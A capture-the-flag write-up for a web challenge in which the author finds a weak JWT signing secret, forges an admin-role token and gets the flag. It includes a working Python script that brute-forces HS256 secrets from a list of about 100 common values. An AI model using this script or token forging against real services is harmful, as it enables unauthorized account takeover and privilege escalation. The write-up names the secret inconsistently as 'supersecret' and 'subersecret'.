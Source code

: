 # Web | Just What you Think

### Coin: 100

**Link**: [https://ctf-1-vo9x.vercel.app/](https://ctf-1-vo9x.vercel.app/)

first step, i created an account from the register functionality

when i check the admin functionality i got : `You are not admin.` 

so my account privigile or role is `user` 

i knew this after analysing the jwt token on [jwt.io](http://jwt.io) 

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image.png)

so now we need to analyise the jwt setup or configration 

first i checked for the sercret key for the jwt signature to test its strongsts

i used this python [code](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881.md) with the most and basic defualt secrets, 

and i found the secret key: it is `supersecret`

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%201.png)

then i verified it on jwt.io:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%202.png)

then in JWT Encoder i changed the role to admin using the secret key:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%203.png)

then i set the new token 

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%204.png)

and it works i could change my role from user to admin and use the admin funtionality and got the flag

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%205.png)

- python code with the top 100  default secrets including the one in the challenge `subersecret`
    
    ```jsx
    import jwt
    
    """
    JWT secret key bruteforce
    """
    
    # JWT Token to decode
    token = input('Enter the Token: ')
    
    # List of common secrets to try
    secrets = [
        "secret", "password", "admin", "123456", "letmein", 
        "changeme", "qwerty", "abcdef", "test", "jwtsecret",
        "admin123", "mysecret", "welcome", "123123", "1q2w3e4r", 
        "123qwe", "root", "toor", "letmein123", "password123", 
        "password1", "iloveyou", "monkey", "sunshine", "football", 
        "1234", "princess", "qwerty123", "12345", "123abc", 
        "hello", "welcome123", "123qaz", "adminadmin", "trustno1", 
        "trustnoone", "shadow", "master", "guest", "god", "test123",
        "hunter2", "admin1234", "changeme123", "p@ssw0rd", 
        "letmein1234", "welcome1", "passw0rd", "root123", "p@ssword", 
        "qwertyuiop", "monkey123", "iloveyou123", "12345qwerty", "abc123", 
        "qwertyui", "password321", "secret123", "abcd1234", "1234qwerty", 
        "1qaz2wsx", "qazwsx", "1qazXSW@", "myadmin", "letmeinqwerty", 
        "hello123", "admin12345", "12345admin", "welcome12345", "qwerty12",
        "letmeinqwerty123", "y0u45ecreT", "s3cret", "p4ssword", "secretkey", 
        "forbidden", "getoverit", "password111", "1234root", "god123", 
        "access123", "passphrase", "mysupersecret", "iloveyou1", "secure123", 
        "abcde12345", "password!123", "12345letmein", "12345secret", "asdfgh", 
        "pass123", "fakepassword", "thisispassword", "ilovepassword", "1234test",
        "secretpassword", "user123", "123456789", "welcome12345", "subersecret"
    ]
    
    # Try each secret
    for secret in secrets:
        try:
            # Attempt to decode the token with the current secret
            decoded = jwt.decode(token, secret, algorithms=['HS256'])
            print(f"[+] Success! \n[+] Secret: {secret} -> Payload: {decoded}")
            break  # Exit once the valid secret is found
        except jwt.ExpiredSignatureError:
            print(f"Expired signature, secret: {secret}")
        except jwt.InvalidTokenError:
            pass  # Ignore invalid token errors
    ```